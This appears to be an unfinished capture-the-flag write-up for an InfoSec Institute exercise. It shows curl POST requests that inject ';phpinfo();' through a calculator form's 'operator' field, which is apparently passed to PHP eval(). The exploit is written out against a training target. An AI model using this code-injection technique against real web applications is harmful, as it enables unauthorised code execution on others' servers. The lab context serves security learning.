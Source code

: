 # Work in progress...

1.	Inspect form's fields in order to identify where to put `phpinfo()`. After
	some trials seems that `operand1` and `operand2` must be numbers, then
	`operator` should be the veicle of the attack.

2.	In the normal behaviour, the app replies with

		The result of X + Y is: Z

	where `Z` could be the result of an `eval()`.

5.	Let's try to force the `operator` field. The following commmand produces an
	intersting thing...

		curl -XPOST --data "operand1=1&operand2=1&operator=;" \
			http://ctf.infosecinstitute.com/ctf2/exercises/ex2.php

	Maybe this could be the solution

		curl -XPOST --data "operand1=1&operand2=1&operator=;phpinfo();" \
			http://ctf.infosecinstitute.com/ctf2/exercises/ex2.php

	Yep!
